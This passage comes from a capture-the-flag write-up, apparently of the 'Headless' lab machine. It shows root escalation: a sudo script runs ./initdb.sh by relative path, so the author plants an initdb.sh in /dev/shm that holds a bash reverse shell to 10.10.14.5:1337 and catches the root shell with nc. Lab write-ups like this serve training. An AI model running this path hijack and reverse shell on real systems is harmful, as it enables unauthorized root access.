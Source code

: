 ```bash

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
dvir@headless:~$ 
```

The script wasn't using a full path for the `initdb.sh` 

```bash
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi
```

I created a script named `initdb.sh` in the `/dev/shm` directory with my payload

```bash
dvir@headless:/dev/shm$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.5/1337 0>&1"' > initdb.sh
dvir@headless:/dev/shm$ ls
initdb.sh
dvir@headless:/dev/shm$ chmod +x initdb.sh 
dvir@headless:/dev/shm$ 
```

### Shell as root
I set up a new listener on port 1337 and ran `sudo /usr/bin/syscheck`

```bash
dvir@headless:/dev/shm$ echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.5/1337 0>&1"' > initdb.sh
dvir@headless:/dev/shm$ ls
initdb.sh
dvir@headless:/dev/shm$ chmod +x initdb.sh 
dvir@headless:/dev/shm$ sudo /usr/bin/syscheck 
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.05, 0.02, 0.00
Database service is not running. Starting it...

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
kad@fedora:~/Documents/ctf/htb/Headless$ nc -lvnp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.11.8.
Ncat: Connection from 10.10.11.8:58056.
root@headless:/dev/shm# whoami
whoami
root
```
